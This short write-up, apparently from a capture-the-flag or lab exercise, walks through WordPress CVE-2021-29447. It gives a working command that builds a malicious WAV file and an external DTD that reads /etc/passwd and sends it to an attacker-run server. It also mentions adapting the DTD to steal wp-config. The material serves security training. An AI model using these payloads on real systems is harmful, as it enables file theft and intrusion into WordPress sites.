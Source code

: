 ## Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.

1. We have credentials for the login `test-corp:test` so we have user permission to upload media files.
2. Create a malicious WAV file
3. `nano poc.wav` with `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`
4. create the `NAMEEVIL.dtd` file with the following code 
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://[MY IP]:9999/?p=%file;'>" >
```
5. Launch http server `php -S 0.0.0:80` and upload the .wav

![0xskar](/assets/wordpresscve202129447-01.png)

* * * 

## Based on the results of #1, what is the name of the database for WordPress?

Modifying the NAMEEVIL.dtd to grap wp.config.
